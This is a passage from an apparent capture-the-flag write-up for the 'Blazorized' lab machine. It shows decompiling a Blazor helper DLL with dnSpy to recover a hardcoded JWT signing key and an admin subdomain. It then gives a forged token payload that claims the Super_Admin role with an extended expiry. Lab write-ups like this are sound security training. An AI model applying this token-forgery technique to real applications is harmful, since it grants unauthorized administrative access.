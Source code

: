 ```console
    "lazyAssembly": {
      "Blazorized.Helpers.dll": "sha256-ekLzpGbbVEn95uwSU2BGWpjosCK\/fqqQRjGFUW0jAQQ="
    },

    <SNIP>

  }
}
```

### DLL Reversing
After looking at the files one by one and decompiling them using `dnSpy` we find something interesting for the `Blazorized.Helpers.dll` in the function `JWT`.

![](/assets/images/writeups/blazorized/blazor-dll-decompile.png)

Within the decompiled dll there is a `jwtSymmetricSecurityKey` along with several other variables, one of which is an endpoint to the administrator dashboard. We can add this to our hosts file as well.

## User
With the found JWT secret and admin subdomain, we can generate a new JWT token with the following payload and using the signature we found (make sure to increase the expiration to make the token valid for a longer period).

```
{
  "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress": "superadmin@blazorized.htb",
  "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": [
    "Super_Admin"
  ],
  "exp": 1732143252,
  "iss": "http://api.blazorized.htb",
  "aud": "http://admin.blazorized.htb"
}
```
